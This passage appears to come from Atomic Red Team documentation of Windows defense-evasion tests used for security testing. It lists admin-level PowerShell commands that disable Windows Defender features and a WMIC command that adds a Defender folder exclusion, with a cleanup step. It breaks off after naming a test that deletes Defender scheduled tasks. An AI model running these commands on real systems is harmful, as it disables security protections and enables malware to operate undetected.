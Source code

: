 **Supported Platforms:** Windows

**auto_generated_guid:** f542ffd3-37b4-4528-837f-682874faa012

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender-Gui" -NoRestart -ErrorAction Ignore
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender-Features" -NoRestart -ErrorAction Ignore
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender" -NoRestart -ErrorAction Ignore
Disable-WindowsOptionalFeature -Online -FeatureName "Windows-Defender-ApplicationGuard" -NoRestart -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #37 - WMIC Tamper with Windows Defender Evade Scanning Folder

The following Atomic will attempt to exclude a folder within Defender leveraging WMI
Reference: https://www.bleepingcomputer.com/news/security/gootkit-malware-bypasses-windows-defender-by-setting-path-exclusions/

**Supported Platforms:** Windows

**auto_generated_guid:** 59d386fc-3a4b-41b8-850d-9e3eee24dfe4

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
wmic.exe /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"ATOMICREDTEAM\"
```

#### Cleanup Commands:

```cmd
wmic.exe /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Remove ExclusionPath=\"ATOMICREDTEAM\"
```

<br/>
<br/>

## Atomic Test #38 - Delete Windows Defender Scheduled Tasks

The following atomic test will delete the Windows Defender scheduled tasks.

[Reference](https://thedfirreport.com/2022/05/09/seo-poisoning-a-gootloader-story/)
